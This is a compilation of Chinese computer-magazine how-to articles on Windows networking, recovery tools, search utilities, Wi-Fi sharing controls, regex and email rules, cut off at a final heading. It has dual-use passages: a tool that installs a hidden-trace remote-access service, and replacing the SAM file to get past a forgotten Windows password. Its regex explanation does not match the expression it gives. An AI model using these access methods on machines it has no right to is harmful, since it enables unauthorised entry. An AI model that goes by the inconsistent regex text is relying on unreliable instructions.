在Windows 7中，右击任务栏网络图标，选择“网络和共享中心”，在打开窗口中单击“更改适配器设置”链接，在打开窗口中右击相应的网卡，选择“属性”命令，再在打开窗口中双击“Internet Protocol Version 4(TCP/IPv4)”项，在打开的窗口中选中“自动获得IP地址”和“自动获得DNS服务器地址”项，下一步，单击“备用配置”标签，然后在打开窗口中选中“用户配置”项，再在其中输入固定IP地址、子网掩码、默认网关、首选DNS服务器地址，如192.168.1.8、255.255.255.0、192.168.1.1、192.168.1.1等。

进行这样设置后，当我们的电脑发现有DHCP存在，就会从DHCP服务器上获得IP地址，否则就会使用我们设置的固定IP、子网掩码、默认网关、首选DNS服务器地址等。

> 小提示：
Windows XP系统通过“网上邻居→属性”命令，打开“网络连接”文件夹，右击相应的网卡，如“本地连接”，选择“属性→Internet协议(TCP/IP)”项进行设置。

(文/itwriter)

## 远程取文件 只用优盘就搞定

市场部的小钱接到公司老总的电话，让他今天务必完成公司下一季度的市场分析报告。面对老总的指示，小钱自然不敢怠慢，赶紧加班加点地编写相关文档。在撰写过程中，小钱忽然想起有些重要资料存在家里的电脑上，忘记带来了。小钱家的位置离公司比较远，如果回去拿肯定耽误事。于是小钱给家里人打了个电话，让其将家里的电脑打开，因为小钱的上网程序设置为自动运行状态，这样会自动拨号上网。随后小钱不慌不忙地拿出自己的优盘，将其连接到电脑上，经过一番简单的操作，就和家里的电脑建立了安全的数据连接通道，之后毫不费力地将相关资料传输到自己的优盘上。究竟小钱使用了什么奇特的优盘，竟然具有如此“神通”呢？且看下面慢慢道来。

原来，小钱使用了GigaRunner这款独特的免费软件。依靠这款软件，可以将普通的优盘神奇般地变成远程控制器。不管您走到哪里，只要能连接互联网，只需插上该优盘，运行GigaRunner主程序，GigaRunner就可以和预设的目标主机建立安全连接，您无需知道目标主机的IP地址，仅需要输入连接密码，远程主机的所有文件就完全呈现在您的面前，之后您就可以随心所欲地下载所需的文件了。在整个操作过程中，不会在当前主机上留下任何痕迹信息，而且在数据传输过程中，GigaRunner可以使用AES 256高强度算法对其进行加密处理。接下来就简单谈谈具体的实现方法。

GigaRunner下载地址：http://www.gigarunner.com/software/GigaRunner.zip

- 第一步：
将下载的“GigaRunner.zip”文件解压后保存到优盘根目录下，之后将优盘连接到被控端主机上，进入优盘中的“GigaRunner”文件夹，运行其中的“GigaRunner-Windows.exe”程序。
- 第二步：
在弹出的欢迎界面中点击“立即链接”按钮，GigaRunner会提示您将要安装“GigaBase”程序，该程序必须运行在被控机上，其作用是管理远程连接，该程序可以自动跟随系统自动运行。
GigaRunner安装完成后，在随后打开的认证管理窗口中需要输入GigaRunner用户名。
点击“前进”按钮，在下一步窗口中输入连接密码。点击“前进”按钮，在“运行身份”窗口中选择以本机哪个账户的身份运行“GigaBase”程序。一般来说选择当前账户即可，当完成以上操作后，您的优盘就会和本机自动建立可靠的链接关系。
- 第三步：
在任何一台联网的主机上插上本优盘，运行其中的“GigaRunner-Windows.exe”程序，GigaRunner就会自动通过网络查找与之建立链接的目标主机。

稍过片刻，GigaRunner就会和目标主机建立网络连接。在弹出窗口中的“GigaRunner 以链接至X”栏中显示链接成功的信息，其中的“X”为目标主机的完整名称。在“键入您的密码”栏中输入预设的连接密码（注意如果连续三次输错密码，您的远程访问权限将被冻结24小时）。点击OK按钮，GigaRunner就可以将相关的硬件ID、软件ID、账户名和密码提交给远程主机进行认证，远程主机上的“GigaBase”程序取得这些认证信息，确认正确无误后，就可以和优盘上的“GigaRunner-Windows.exe”程序建立数据传输通道。
在随后打开的远程控制窗口中列出目标机上的文件列表信息，双击对应的盘符，可以显示该盘中的所有文件信息。您如同操作本机一般浏览远程主机的文件信息，双击所需的文件，即可将其下载到优盘上。下载完所有的文件后，在优盘中打开“GigaRunner\AppData\Downloads”文件夹，就可以得到所有下载的文件了。

> 小提示：
当您需要更改远程连接密码时，可以在目标机系统托盘中双击“GigaBase”程序图标，在弹出窗口中点击“选项”按钮，在打开窗口中点击“更改密码”按钮，输入新的密码即可。
（文/郭建伟）

## 崩溃、重启不怕 自有还魂妙药

下班前开启迅雷下载大片，本以为第二天上班能美美地欣赏，哪知上班后发现迅雷不知什么时候自动关闭了，早听说迅雷“精神”不太正常，常会发生崩溃的事件，怎么这事就会落到我的头上呢？
安装某个软件，不停地单击鼠标，不经意间软件安装完成后重启了电脑，桌面运行的许多程序又得重新一一打开，好不烦人。
不知你是否也遇到过这类情况？事后你可能会想，要是能让电脑吃上还魂药，让程序崩溃或系统重启后，能自动回到以前的状态，那该多好。呵呵，这样的妙药还真有！

### 1. 程序崩溃重启药

软件“restart_on_crash”（下载地址：http://www.onlinedown.net/soft/106485.htm）可以让因种种原因关闭的程序在规定时间内重新运行，我们以迅雷为例。
运行迅雷，再运行“restart_on_crash”，单击“Add”按钮，通过“Select a running application”打开正在运行的程序列表窗口，从列表中选中迅雷后单击“Select”，把迅雷加入到监控之中，并勾选“It isn’t running”、“OK”确定，经过这样的设置后，一旦迅雷停止运行，将立即重新启动。

> 小提示：
在迅雷中我们也应该做一番设置，依次单击“工具→配置→常规”，勾选“迅雷启动后，立即开始未完成的下载”后单击“确定”。

### 2. 系统重启恢复药

重新启动系统后，立即投入到关机前的工作，可以免去一一打开程序的麻烦。软件“CacheMyWork”（下载地址：http://www.myfiles.com.cn/soft/23/23679.htm）可以记录关机前桌面上运行的程序，并在开机后进行快速恢复。
软件运行后，在列表窗口中可以看到当前运行的程序，勾选重启后需要恢复的程序，并单击“save”。这样，当由于可知或不可知的原因电脑重启后，这些被保存的程序将自动恢复。

> 小提示：
该软件需要“.NET Framework”支持。
（文/曹春华）

## EPUB 我悄悄地走近你

EPUB电子书，凭借灵活的内容重排的特性迅速崛起，成为掌上阅读的首选格式。但当大家大张旗鼓地去接近它的时候，却发现网络提供的资源，根本满足不了自己的胃口。失望之余，不禁自问：哪里才有EPUB资源？其实无论问与不问，EPUB就在那里，只不过想得到它，需要找对门路才行。

### 一、从“至善读书”直接获得

“至善读书”是一款电子书阅读工具，其中收集了大量网站中的EPUB资源。如果电脑中安装了这款软件，那么EPUB的来源，可以说根本不成问题。

“至善读书”（下载地址：http://uread.superfection.com/software/uread.zip）是一款绿色软件，打开程序界面后，单击上方的“搜书”按钮，在“关键词”文字右侧输入书的名称，比如“三重门”。单击“搜索书籍”按钮，所有搜索到的资源列表，便出现在界面下方。在搜索结果中双击某一EPUB文件名称，便可将该电子书下载到电脑中。下载完毕自动打开阅读界面，此时我们可以按下ESC键退出阅读界面，然后打开“至善读书”解压目录下的books文件夹，找到下载的电子书，把它传输到掌上设备，以后就可以随时随地阅读了。

### 二、利用“至善读书”转换格式

即使搜索的电子书没有EPUB格式的资源也不要紧，因为“至善读书”不仅是一款电子书阅读工具，同时也具备格式转换功能，利用这一功能，我们可以把PDF、UBK、TXT等格式的资源，转换成EPUB格式。

- 1. 单独导出
以上文中搜索到的电子书为例，找到其它格式的文件，双击鼠标将其下载，进入阅读界面后，在任一页中右击鼠标，在弹出的菜单中选择“导出→epub”，随后在弹出的对话框中选择文件的保存路径，单击“保存”按钮即可完成。
需要提醒的是，如果选择的是TXT格式的电子书，建议大家在打开阅读界面后，先按下键盘上的CTRL+M组合键抽取目录，再右击鼠标，选择“设置→封面”选项，在弹出的对话框中，为新电子书指定一张图片做为封面，最后再导出到电脑。这样转换成的EPUB电子书具有章节和封面，比较完整。

- 2. 批量转换
至于电脑中早已存放的大批电子书，也可以利用“至善读书”的批量转换功能，通过一次操作，把所有文件转换成EPUB格式，这样能省力不少。只是这一功能只适用于TXT格式的文件，其它格式电子书需要先单独导出为文本，然后再批量转换。

打开程序界面，单击左侧的“打开文件”按钮，选择任一TXT电子书打开，在进入阅读界面后右击鼠标，选择“工具→批量转换”，在级联菜单中指定TXT→EPUB选项，然后在弹出的对话框中选择电子书文件所在路径，单击“确定”按钮即可完成。所转换的文件就存放在原文件夹中。批量转换在章节和封面上无法直接设置，有些遗憾。

### 三、上传到网站进行转换

使用单位电脑或别人电脑获取EPUB时，安装软件显然不妥。建议大家利用网络转换工具进行操作。
2EPUB这个网站，支持把DOC、PDF、TXT等格式的电子书转换成EPUB格式，而且一次可上传5个文件，稍显不足的是，该网站支持的格式有限。

建议上传前，把文件改为英文名称，否则下载的文件名称为乱码。打开网站（网址：http://www.2epub.com/），单击BROWSE按钮，在弹出的对话框中指定要转换的文件（单个文件体积小于25MB），单击Upload Files按钮上传，完后单击Convert Files to EPUB文字链接开始转换，转换完毕，单击页面中出现的files.zip文字链接，便可以按提示把打包后的EPUB文件全部下载到电脑。如果只是单击某个文件名称右侧的箭头状按钮，则只会下载该文件所对应的EPUB文件。
（文/赵毅仙）

## 抓住系统的救命稻草

当系统出现故障，不能进入系统的时候，你该怎么办？也许你会说重装系统。但是，不管系统出现的是什么问题，动不动就重装系统，其实也不是上策，更不是系统高手所为。其实，在我们的操作系统中，就为我们提供了一个用来在危难时刻挽救系统的工具——故障恢复控制台。

> 小知识：关于故障恢复控制台
故障恢复控制台是Windows操作系统中用于修复系统的工具，它可以启用和禁用系统服务、格式化磁盘、挽救磁盘数据、修复系统故障，是我们无法进入系统（包括安全模式）时修复系统的“法宝”，被用户形象地称之为“救命稻草”。适用于Windows 2000以上版本的操作系统。

## 一、预备工作——启动故障恢复控制台

你必须先掌握启动故障恢复控制台的方法。不要等到系统出了问题才想到去学，那样只能再准备一台电脑去查了。有备无患，先掌握这一招吧！

第一步：按下键盘上的Del键进入到BIOS设置程序，在主菜单中选择Advanced BIOS Features选项，并按回车键进入高级BIOS设置，再通过键盘上的↑，↓方向键选择其中的First Boot device选项，再按下回车键进入后选中CDROM（将第一启动设备设置为光驱），设置完毕后，按下F10键存盘退出。

第二步：将Windows XP安装光盘插入光驱，启动计算机，待到屏幕出现相关提示时，按下键盘上任意键即可看见Windows XP的欢迎画面，重新启动电脑，系统会自动以光盘引导，无需用户干预。当进入到Windows XP安装界面选项时，按下R键选择第二项“要使用‘故障恢复控制台’修复Windows XP安装，请按R”。

第三步：按下R键后，系统会自动检测机器所安装的所有操作系统，并出现登录到哪一个Windows的提示，键入欲进入的操作系统的序号即可，示例中键入的是1，回车后会提示你键入管理员密码，键入正确的管理员密码并回车，当出现C:\Windows>提示符的时候，故障恢复控制台也就成功启动了。

> 小提示：将故障恢复控制台安装到硬盘中
要使用故障恢复控制台，每次都要翻出安装光盘，从光盘启动，比较麻烦。其实，我们还可以将故障恢复控制台安装到硬盘中，实现从硬盘启动故障恢复控制台。将Windows安装光盘放入光驱，然后在“运行”对话框中输入并执行X:\i386\winnt32.exe /cmdcons命令（X为光驱盘符，请自行修改），这时就会弹出Windows安装程序对话框，询问你是否将故障恢复控制台安装到硬盘上。点“是”按钮即可将故障恢复控制台安装到硬盘上。重新启动计算机，你就会在多重启动菜单中发现一项名为Microsoft Windows XP Recovery Console的选项，通过该选项就可以进入系统故障恢复控制台了。

## 二、回天实战——让你的系统起死回生

### 实例一：系统DLL文件损坏

故障现象：开机不能进入系统，屏幕显示有某个DLL文件损坏的提示信息。

分析解决：从开机错误提示中我们可以看到是Hal.dll文件丢失或损坏造成了系统无法启动。因此，只需从安装光盘中找到同名文件将其释放到原文件所在目录就可以了。安装光盘的I386文件夹是一个重要的文件夹，几乎所有的系统级文件全部位于其中。

在故障恢复控制台的命令提示符后依次输入如下命令：

```
C:\WINDOWS>x: //x为光驱盘符，请自行修改为你的光驱盘符
X:>CD I386 //切换到光盘的I386文件夹下
X:\>I386>expand hal.dl_ C:\WINDOWS\system32\ //将安装光盘I386文件夹中的hal.dl_文件释放到C:\WINDOWS\system32\目录中
```

当出现“扩充了一个文件”的提示后，表明已经将hal.dll文件释放出来，重新启动计算机后，即可使电脑重新启动。

> 小提示：
expand命令是释放文件命令，在Windows安装光盘中所有的动态链接库文件为了缩小体积，减少对光盘空间的占用，都是经过特殊压缩的，是以*.dl_的形式存在的。要替换系统中丢失或损坏的同名文件，必须用expand命令释放到系统才行。

### 实例二：系统NTLDR文件丢失

故障现象：Windows XP系统无法启动，并提示“NTLDR is Missing，press any key to restart”.

分析解决：这主要是由于重要的系统文件NTLDR丢失或损坏所致。只要启动故障恢复控制台，从安装光盘的I386文件夹中提取出此文件，并复制到C盘的根目录下覆盖原文件即可。

```
C:\WINDOWS>x:
X:>CD I386
X:\>I386>COPY NTLDR C:\ //将安装光盘I386文件夹中的NTLDR文件复制到C盘的根目录下
```

### 实例三：系统登录账号丢失

故障现象：在Windows XP中试验一篇文章时，不小心把Windows\system32\config下的sam文件删除了，结果Windows XP账号丢失，不能进入Windows XP的登录界面。由于安装有很多软件，但又不想重装系统，可以恢复Windows XP吗？

分析解决：答案是可以的。进入故障恢复控制台，把Windows XP的安装光盘放进光驱（光驱盘符为H：），输入copy h:\windows\repair\sam c:\windows\system32\config\sam并回车，将H:\windows\repair\sam文件复制到c:\Windows\system32\config文件夹即可。

### 实例四：引导系统重要文件丢失

故障现象：不慎删除了Boot.ini等启动文件，原来的Windows XP系统安装在C盘，现在重装，将系统装在D盘。安装完毕后，将C盘格式化了，结果C盘根目录下的Boot.ini等系统文件没有了。这时该怎么办呢？

分析解决：在故障恢复控制台环境中，我们可以先执行bootcfg /scan命令在所有磁盘上扫描Windows安装，找到D盘上的Windows XP后，输入bootcfg /redirect重建Boot.ini，同时使用copy命令将Windows XP的安装光盘上I386目录下的NTDETECT.com和NTLDR复制到C盘根目录下，最后执行fixboot c:，把Windows XP的系统分区写入启动扇区。

如果你的电脑是双系统，在把C盘上的系统格式化或删除的同时，不小心把Boot.ini也一并删除了，可以用此方案来恢复。

> 小知识：故障恢复控制台的优缺点
故障恢复控制台提供了与Windows中服务紧密结合的工具，用它可以方便地启用与禁止系统服务。它能够适应多种新型的文件系统，包括动态磁盘、引导扇区、NTFS文件系统。相对DOS而言，故障恢复控制台对NTFS的读写要稳定。重要的是故障恢复控制台可以访问动态磁盘，对NTFS卷进行格式化和深度磁盘检查，可以修复引导区。故障恢复控制台可以显示中文，这对于看不懂DOS命令的菜鸟来说是再好不过了。内置的help命令以及全中文的解释使得不懂DOS的人也很容易上手。

然而，故障恢复控制台如同WinPE一样，只是一种紧急状态下的工具，不能成为独立的操作系统。它不能输入中文，也无法访问中文命名的文件夹。支持的功能较少，比如，故障恢复控制台没有edit这个命令，这对于手工修改boot.ini之类的文件的高手来说可谓是一大软肋。而且，故障恢复控制台不允许执行程序，不能像DOS一样添加外部支持，故障恢复控制台仅仅配备了最基本的系统驱动，对新型设备的支持不了。

> 小提示：
Repair下的Sam文件是当初安装Windows XP时产生的，删除sam文件的操作会丢失安装系统以及你自己在系统中创建的用户和用户组（用户信息回到全新安装时状态）。如果你开了系统还原，可以先成功地登录Windows XP，再还原到最新的还原点恢复你的全部用户设置。
在系统的安装光盘：\windows\repair目录下有很多文件，这里面是系统刚装好时的注册表、硬件信息等。另外，如果你忘记了系统的登录密码，可以利用此方案来解决问题。

## 搜索 让步骤来得更简洁些吧

提起搜索，一般的步骤都是先打开浏览器，再打开搜索引擎，然后输入搜索关键词进行搜索，看似不复杂的步骤，但对于讲求效率的人来说，哪怕能精简掉其中的一步，也是值得欣慰的事。下面，就让我们一起让搜索做得更简洁些吧。

## 右击关键词实现搜索

在浏览网页或阅读文本时，如果想对其中的某个关键词进行搜索，重新输入搜索关键词（哪怕是复制粘贴）都会令人觉得是多此一举的步骤，用下面的右键搜索功能就显得快捷多了。

### （1）浏览器中的右键搜索

傲游、搜狗等浏览器均具备右键搜索功能，即选中网页中关键词，从右键菜单中选择“搜索”即可直接打开网页进行搜索。而IE浏览器在这方面就显得有所欠缺，我们可以用百度工具栏来弥补。
安装百度工具栏后，选中关键词右击，在右键菜单中就可看到“搜索”项，单击“搜索”可直接打开搜索页面，也可以把关键词拖到工具栏中的搜索窗口。

### （2）在非浏览器中实现右键搜索

有时，我们在记事本或Word等文本编辑器中遇到一些词语需要搜索，如果也能实现右键搜索那该多好。你别说，这样的软件真有，“MouseSearch”（下载地址：http://xqdssdh.net/）就有这样神奇的功能。下载运行后，软件图标最小化至托盘处。在文本编辑器中，用鼠标右键向右拖动选中搜索关键词，在鼠标指针右侧，可以看到多出一个“向右选词”的指示，选择后松开，即可打开默认浏览器，使用百度进行搜索。
如果需要改用其它搜索引擎，单击托盘中软件图标，选择“设置”，在“搜索引擎”中可进行选择。

## 直接在桌面上搜索

许多情况下，当我们在桌面上工作时，突然想起需要搜索，是不是按部就班地打开浏览器，再打开搜索引擎……有没有更为快捷的方法呢？利用软件“吉特盒子”（下载地址：http://dl.pconline.com.cn/download/84732.html）可以直接在桌面上进行搜索。
软件运行后，在桌面上显示搜索工具条，输入搜索关键词回车，就可以打开搜索引擎搜索。需要改变搜索引擎时，单击工具条右侧扳手图标，直接勾选就可以了。当工具条自动隐藏时，按Alt+空格键呼出桌面搜索框，再次按下则隐藏。

## 右键直达淘宝

同样，浏览网页时，看到心仪的宝贝想去淘宝搜一搜，用复制、打开淘宝网、粘贴的方法也是不能令人忍受的。用“淘宝右键划词搜索”（下载地址：http://onlyidc.onlinedown.net:82/down/tbyjss.rar）可免去这些麻烦的步骤。
该软件实质上是一个IE浏览器插件，安装后，在网页中选中宝贝并右击，选择右键菜单中的“上淘宝搜宝贝”即可打开淘宝搜索。

## 网上看片 跳过广告绕道走

经常通过网络观看电视连续剧的朋友肯定会注意到，片头或片尾的广告会很让你烦。但也没办法，不看也得等着它自动演过去再说。其实，有些网站经过简单的设置，就能够自动跳过片头片尾，直接播放正片内容；有些网站能够通过收藏夹帮助我们记住上一次播放的断点；有些网站一集连续剧播放完之后会自动打开下一集。上述种种人性化的设置，能够为我们观看网络电视剧，节省下不少时间。

### 一、自动跳过片头片尾

这里以360浏览器播放奇艺高清网站的电视剧《美人心计》为例。打开其中的一集，广告播放结束后，系统会自动加载播放电视剧内容，并在片头、片尾处各显示一个白色的小方块，指向片头小方块，会出现“此处开始进入正片”的提示，单击下方的“设置”按钮，在弹出的对话框中选择自动跳过片头片尾，以后再到奇艺网站观看连续剧，都会自动跳过片头片尾。

常见的电视剧网站当中，搜狐高清和腾讯视频，能够自动跳过片头片尾；酷6网、激动网、中国网络电视台和芒果TV的电视剧，一般都没有片头片尾；而新浪视频、土豆网、迅雷看看、乐视网和优酷网等，都不能自动跳过片头片尾，只能通过手工拖动的方式跳过。

### 二、借助收藏夹断点续播

这里以播放搜狐高清的电视剧《天涯赤子心》为例。只要我们在关闭某一集电视剧窗口之前，执行“添加→添加到收藏夹”命令，将其添加到浏览器的收藏夹中，然后再关闭浏览器。下次再有空闲时间的时候，再通过收藏夹访问该网页时，系统就会在播放广告之后，从上次播放的断点开始继续播放，这样就不会出现记不清楚上次究竟看到什么地方的情况了。

常见的视频网站中，只有奇艺高清、搜狐高清、酷6网、激动网和芒果TV等支持断点续播功能。有时一部热门的电视剧，会出现在几个不同的网站上，例如最近热播的电视剧《美人心计》，在新浪、搜狐、奇艺等网站都可以播放。但由于新浪视频网站不能自动跳过片头片尾，也不支持断点续播，因此我们就可以选择奇艺或搜狐高清网站进行观看，以节省一点宝贵的时间。

(文/姚文连)

## 让桌面背景与图标色块变和谐

通常，无论你如何改变桌面背景图片，桌面上的图标与背景看起来都会很和谐。但是，当你进行了某种操作或安装运行了某个软件之后，也许你突然会发现，桌面图标和背景之间变得很不和谐——桌面上的每个图标下面都有一个难看的色块，挡住了桌面背景。这个问题许多人都遇到过，一般也不难解决，我就曾无数次为别人解决过这个问题。但是，前几日自己遇到的同一问题不仅难倒了自己，还难倒了同行一片。最后在一位网友的博客上找到了特殊解决办法。现对这个问题做全面总结，我想按下面的方法去做，如果你再遇到这样的问题，一定能很快得到解决。

### 动用系统的“色块开关”

在Windows XP操作系统的设置深处，就有一个这样的开关，你可以通过它来控制桌面图标色块的显示与否，你可以尝试通过以下操作进行设置来解决问题。

第一步：右键单击“我的电脑”，通过“属性→高级→性能→设置”。
第二步：在“视觉效果”选项卡页面中勾选“在桌面上为图标标签使用阴影”前面的复选框并确定。
这样设置之后，看看桌面图标背景是否还遮盖桌面图片。

### 去掉惹祸的“活动桌面”

通常情况下，造成桌面图标色块，多是由于直接将文档编辑器中的图片直接复制、粘贴到桌面上，从而导致活动桌面的开启造成的。如果尝试以上操作后，仍没有恢复桌面图标背景，可以尝试通过关闭活动桌面来解决问题。具体方法如下：

第一步：右键单击桌面并选择“属性”，随后选择“桌面”选项卡，点击其中的“自定义桌面”。
第二步：在接下来弹出的“桌面项目”窗口中选择“Web”选项卡，将其中所有勾选都去掉，然后点击“确定”。
如上设置之后，再看桌面图标背景是否还遮盖桌面背景图片。

### 取消屏幕字体高对比度设置

还有一种很特殊的情况，那就是由于屏幕字体对比度设置不当引起，这也许与设备的兼容性有关，因为多数电脑设置了字体高对比度显示不会出问题，而个别电脑就会出现这种问题，可以用如下方法取消高对比度设置，尝试来解决。

第一步：打开控制面板，从类别选择中选择“辅助功能选项”，选择“调整您屏幕上的文字和颜色的对比度”，打开辅助功能选项的“显示”选项卡。
第二步：在“显示”选项卡中，去掉“使用高对比度”复选框前面的选择。
确定之后，返回桌面，刷新一下桌面，看看桌面图标色块是否还存在。

以上介绍的方法，我们从三个层次来尝试解决桌面图标背景色块问题。你也许只用其中的一步，问题就能得到解决，运气最差，一般来说，当你试完三个方法之后，你的问题应该能够得到解决。

(文/牛奔)

## 管好无线局域网 权限流量任我行

我家装了无线路由器，本来是好心，开放了权限让左邻右舍亲朋好友共享我的宽带，但没想到的是有的人不够自觉，无休止地进行下载，造成网络堵塞。还有就是，不知是哪位亲戚透露了消息，导致某些不被允许入网的用户也能够用无线网卡搜索到我的无线信号，盗用我的网络资源。关闭共享肯定不成，朋友们用惯了，关了显得我不够义气，但忍受蜗牛的速度我肯定不情愿。经过一番学习和琢磨，我借助一些软件，同时再对无线局域网进行了一些设置，就解决了这两个问题。

### 一、借助工具，控制流量

为了限制别人下载占用网络过多带宽的问题，我借助“网络岗”这款软件来帮忙解决。使用该软件进行流量控制时，首先打开程序的“常用设置”项下的“基于网卡模式”界面，在此先选择好监控计算机的IP地址，如果是对局域网的全局控制，我们可以将所有IP全部选中。

之后进入“限制流量”标签项，程序提供了对该计算机数据流量进行限制，在“限制方式”项中我们可以根据需要选择一种“限制方式”，如限制每分钟的流量等。在“流量”项的“规定时间内总流量不超过xxKB”中输入一个流量值，随后单击下面的“更新规则→当前计算机IP”按钮，这样当前计算机在规定时间内的流量就只能限制在指定的数据内了。如果要将该网络内的所有计算机都进行相同流量设置，在此单击下面的“更新规则→群组下属所有机器”即可。

### 二、封堵下载，腾出流量

为了进一步控制下载，我准备对BT工具进行封堵。切换到“封堵端口”标签项下，在“封堵指定端口”项中程序列出了多个经常使用的端口，“网络岗”默认情况下没有对BT程序端口进行封堵，在此我们添加需要封堵的端口，单击右侧的添加按钮，弹出一个“端口”对话框，在此勾选“封堵”对话框，在下面的“端口”中输入“6881”并输入“描述”文本框，随后单击“确定”即可将端口封堵。

小提示：一般BT软件使用的端口是“6881和6889”，因此按照上面的方法对这些端口进行封堵。设置后，在规则中将该规则指定到所有IP地址，这样我们就可以对指定计算机的端口进行封堵。

### 三、绑定地址，拒绝生人

左邻右舍都来共享我的路由器，如果大家都使用一个无线路由器发射的无线网络信号，那么连接到本网络中的用户多了，每台电脑的上网速度就会明显下降，势必会影响到我的正常使用。怎么才能防止一些非法用户使用无线网络呢？

因为我的邻居和熟人使用无线网络的都是固定的电脑，如果使用安全密码的方式，一旦密码被“守口不牢”的人泄露，非法用户也可以使用密码连入无线网络。所以加密这条路并不可行。此时，通过IP和MAC地址绑定的方式可以有效限制其他用户使用。进行IP和MAC地址绑定时，先要取消DHCP的IP自动分配功能，这样静态绑定才能生效。关闭DHCP功能时，在路由器的管理界面的“DHCP服务”项下点选“不启用”即可。随后在“静态地址分配”列表中我们可以输入各个电脑指定的IP地址和MAC地址，并将状态改为“生效”即可。

通过对IP和MAC地址绑定后，即便不对无线网络加密，没有在绑定范围内的MAC地址也无法使用无线网络。

### 四、查看用户，确保放心

如果你对上面的设置还是不太放心，担心当前是不是还是有陌生人在使用你的网络，占用你的网络带宽流量，此时我们还可以随时关注网络状态，查看一下上网的电脑情况。

为了方便查看网络状态，我用一款名为ListNetIP的小软件。该软件安装后，操作非常方便，单击“Begin search”按钮，即可显示出当前使用该网络的所有电脑IP和MAC地址，这样我们可以非常方便地查看是否有非法用户入侵了。

小提示：除了通过上面的方法，基本能确保无线网络的安全外，目前常用的无线路由器一般都提供IP过滤、无线防火墙等实用功能，使用这些都可以限制非法IP登录，用户可以针对自己所用路由器提供的功能，利用好每一项安全功能设置，为自己打造一个既安全顺畅，又邻里团结的和谐美好的网络环境。

(文/小超)

## 成批去掉路径 我有好办法

一位做图书管理员的同学请教我一个问题：她在生成5万本收藏图书目录的时候，产生的每一条记录都带了图书所在的文件路径，路径中间出现好几次反斜杠，而她只需要图书所在的盘符和图书名称，不需要中间的具体路径。5万多条图书目录，如何才能一次性去掉这些路径字符串呢？同学说她也曾尝试用功能强大的EmEditor文字处理软件来处理，试图将两个半角反斜杠中间所夹的不定长字符串路径成批替换为某个字符串（比如空），但试验了许多方法都不能成功。他问我，在EmEditor中到底该如何构建这个正则表达式。

同学的这一解决思路是正确的，但是，要在EmEditor中实现如上替换，光知道正则表达式的一般单一用法不行，必须能灵活运用其用法的组合，方能达到完美替换的效果。本案例的处理思路虽然很简单，有一点替换经验的人都知道，只要把上图中所有反斜杠里包括的内容都变成空即可。但难点就在于，反斜杠的数量不定，反斜杠中的字符串长度不定，如何构造“查找”所需的正则表达式。

下面，我先告诉您完成这一任务的最终表达式，然后再一步一步解释这个表达式的来由，详细说明这个表达式是如何实现这个案例中的查找和替换的。

## 具体实现方法：

用EmEditor打开要处理的含有5万条记录的文本文件，在EmEditor编辑窗口中通过“搜索→替换”命令（或者Ctrl+H热键）激活“替换”窗口，在该窗口中的“查找”一栏输入表达式“\([^\]+)\”，“替换为”一栏中什么也不用输入（留空），先点击“查找下一个”按钮看看查找结果是不是符合要求，如果有问题，检查一下表达式构造是不是严格相符，检查一下“使用正则表达式”复选框是不是已经被选中（必须选中才能发挥作用），如果查找结果符合要求，点击“全部替换”按钮进行全文替换即可。

## 表达式详解：

以上表达式中的\表示查找\符号。由于\符号是EmEditor系统内定的一个转义字符，有其特定的含义，因此不能直接输入单个的符号来查找该符号本身，只有两个相同的符号重复使用，才能查找到该符号本身。表达式中的[^]表示匹配列表之外的任何单个字符。[^]的方括号中间含有一个半角空格，因此[^ ]表示匹配半角空格之外的任何符号。表达式中的*表示其左边的字符将被匹配任意次（0次或者多次），例如，be*匹配b、be或者bee等。综合如上三种符号的解释，三种符号组合使用，表达式\([^\]+)\的含义是，首先找到第一个\符号，接着查找任意多个非空格的连续字符串，直到找到最后一个\符号为止。

## 小提示：

关于匹配列表，还有如下两种常见情况。[^ab]匹配a和b以外的字符，而[^0-9]匹配任意非数字字符，大家注意仿此格式灵活应用。

(文/张进波)

## 制定规则 实现邮件管理自动化

每当我们收到一堆邮件的时候，总是要费不少时间去处理，比如把不同类别的邮件转移到不同的邮件夹中，把特定用户发来的邮件标上醒目的颜色，把特定标题的邮件转发给特定的用户等。这些有一定规律的事情其实并不需要我们人工去做，让邮件管理器帮你去做，可以为你省下不少时间去干更多有意义的事情。Outlook Express是我们常用的收发邮件软件，很多人都对它的邮件规则不了解，其实，它的功能很强大，我们就可以让它来帮我们管理收到的邮件，实现一些自动化功能，下面就举例来介绍一下邮件规则的具体使用。

### 让特定邮件自动归类

我在网上订阅了几份电子杂志，我一般是在收到杂志后把邮件移动到相应的文件夹中进行分类保存。每次收到都要进行保存，很麻烦，后来我利用邮件规则来自动进行分类，解决了这一问题。具体实现方法如下：

- 第一步：打开Outlook Express，点击菜单“工具→邮件规则→邮件”，弹出一个新建邮件规则窗口，选择“若主题行中包含特定的词”和“移动到指定的文件夹”，给“规则名称”起个名字，如“转移邮件”。
- 第二步：点击“规则描述”下的“包含特定的词”，输入邮件主题包含的文字（如“新潮电子”），然后点击“添加”，可以一次添加多个特定的文字。
- 第三步：接着点击下面的“指定的”文件夹链接，在弹出的“移动”窗口中选择保存订阅邮件的文件夹就可以了，如果没有保存的文件夹，可以点击“新建文件夹”创建一个（如“我的电子杂志”）。
- 第四步：全部设置好后，在新建邮件规则窗口中点击“确定”返回邮件规则窗口，点击“立即应用”就可以把规则应用到邮件中，以后收到标题包含特定文字（如“新潮电子”）的邮件时，OE就会自动把邮件转移到指定的文件夹（如“我的电子杂志”）中。

### 让特定邮件突出显示

在每天收到的很多邮件中，大部分是没用的垃圾，有用的邮件混在里面找起来很麻烦。其实我们可以利用邮件规则来把重要的邮件设置为红色突出，优先处理，这样一眼就可以看见了，节省不少时间。

- 第一步：打开邮件规则窗口，选择“若发件人行中包含用户”和“用指定的颜色突出显示”，给规则名称起个名字，如“突出重要邮件”，点击“包含用户”。
- 第二步：把通讯簿里的好友都添加进去，再点击“指定的颜色”，选择一个比较显眼的颜色（如红色），点“确定”，这样邮件规则就创建好了。

### 让特定邮件自动转发

订阅了一些网络杂志，需要在每期杂志到来之后，都把它们转发给朋友一起分享。如果每次都用手动转发的话，一定很麻烦，其实，我们也可以通过邮件规则，在邮件管理器帮着进行自动转发。

- 第一步：打开邮件规则窗口，选择“若主题行中包含特定的词”和“转发到指定的用户”，给规则名称起个名字，如“转发电子杂志”，点击“包含特定的词”，输入邮件主题包含的文字（如“新潮电子”），若包含多本电子杂志，可点击“添加”，添加多个包含文字，然后再点击“指定的用户”。
- 第二步：在弹出的对话框中点击“通讯簿”，双击添加要转发的好友，可以添加多个好友，然后点击“确定”就可以了，最后返回邮件规则窗口，点击“立即应用”就可以使用这个邮件规则了。

(文/CFanPE)

## 火眼金睛 给无损音乐验明正身

